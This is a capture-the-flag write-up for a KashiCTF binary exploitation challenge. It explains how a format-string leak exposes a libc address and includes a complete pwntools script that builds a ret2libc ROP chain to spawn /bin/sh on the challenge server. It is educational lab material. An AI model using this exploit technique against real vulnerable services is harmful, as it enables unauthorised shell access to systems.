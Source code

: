 ## The Troll Zone

Checksec of the challenge

![image](https://hackmd.io/_uploads/BkVKw-j5kg.png)


After brute force dump value from the stack then i found the 17th value from the stack is the address of any function in libc
![image](https://hackmd.io/_uploads/HJk5BF_q1g.png)
So we can leak libc -> rop chain and call system("/bin/sh")

![image](https://hackmd.io/_uploads/S1RRBtdc1l.png)
offset to libc_base

![image](https://hackmd.io/_uploads/HyYVitdq1x.png)
/bin/sh = libc_base + 0x196031

![image](https://hackmd.io/_uploads/Byos8tuc1l.png)
pop_rdi = libc_base + 0x00000000000277e5

![image](https://hackmd.io/_uploads/r1kHPKuqye.png)
system = lib_base + 0x04c490

Script:
```python 
from pwn import *

elf = context.binary = ELF('./vuln_patched')
libc = elf.libc
# p = process()
p = remote(b'kashictf.iitbhucybersec.in', 47027)
# gdb.attach(p)

payload = b'hehe %17$p'
# input()
p.sendline(payload)
p.recvuntil(b'hehe ')
x = int(p.recvline().decode().strip(),16)
lib_base = x - 0x2724a
bin_sh = lib_base + 0x196031
pop_rdi = lib_base + 0x00000000000277e5
system = lib_base + 0x04c490
ret = 0x0000000000401016

payload = flat(
    b'A' * (0x20),
    p64(0x404000),
    p64(pop_rdi),
    p64(bin_sh),
    p64(ret),
    p64(system)
)

input()
p.sendline(payload)

p.interactive()
```
![image](https://hackmd.io/_uploads/HJYI6Yu9kg.png)
**Flag: KashiCTF{did_some_trolling_right_there_LMOruSfe}**
